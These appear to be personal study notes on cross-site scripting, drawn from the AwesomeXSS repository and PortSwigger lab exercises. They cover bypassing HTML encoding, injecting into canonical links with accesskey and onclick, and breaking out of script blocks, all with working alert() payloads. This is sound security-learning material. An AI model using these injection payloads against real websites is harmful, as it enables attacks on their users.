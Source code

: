 Taken From :-
[s0md3v/AwesomeXSS: Awesome XSS stuff (github.com)](https://github.com/s0md3v/AwesomeXSS#awesome-payloads)



#### Bypass HTML Encoding
- **Backend Code**
![[Pasted image 20230604213003.png]]

`<` And `>` are HTML Encoded so normal XSS Payload <u>won't work</u>!

- **XSS Payload with <>**
![[Pasted image 20230604213329.png]]

- **Bypass**
```XSS
" autofocus onfocus=alert(document.domain) x="
```

![[Pasted image 20230604213448.png]]


- If `<, >, "` are HTML Encoded then, check where the input is going
- If it's going inside **href** field, use `javascript:alert(1)`


### XSS in Canonical Links
- If you don't see any Input Field, **Insert a Parameter of your own in the URL**
```
// Example

Before: https://0a2c0023039d95ac8053859e00b70062.web-security-academy.net/
After: https://0a2c0023039d95ac8053859e00b70062.web-security-academy.net/?id=1
```

- Check the Source Code to learn how the input is getting accepted. If ' is not encoded then use that!
- Craft the Payload
```
accesskey="X" onclick="alert(1)"
Example: https://0a2c0023039d95ac8053859e00b70062.web-security-academy.net/?id=1' accesskey='X' onclick='alert(1)
```

- If **%20** is coming in the Canonical Link, Try to Replace it with **%09** & see if that works!
- Else, ***don't use any spaces*** :)

%% Same goes for Hidden Input Fields! %%



### XSS into JavaScript
1) **Terminating the existing script**
In the simplest case, it is possible to *simply close the script tag* that is enclosing the existing JavaScript, and *introduce some new HTML tags* that will trigger execution of JavaScript. For example, if the XSS context is as follows:-
```
<script> ... var input = 'controllable data here'; ... </script>
```
***Payload*** :-
```XSS
</script><img src=1 onerror=alert(document.domain)>
```
